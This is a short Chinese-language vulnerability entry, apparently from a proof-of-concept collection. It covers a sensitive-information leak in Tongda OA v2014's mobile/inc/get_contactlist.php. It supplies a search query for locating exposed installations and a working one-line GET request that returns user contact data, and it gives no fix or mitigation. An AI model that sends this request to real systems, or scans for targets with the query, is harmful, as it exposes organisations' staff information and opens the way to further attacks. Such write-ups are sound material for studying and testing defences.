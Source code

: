 # 

# 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

## 漏洞描述

通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

## 漏洞影响

```
通达OA v2014
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

版本信息

![image-20220520154718609](./images/202205201547687.png)

验证POC

```
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![image-20220520154741599](./images/202205201547656.png)
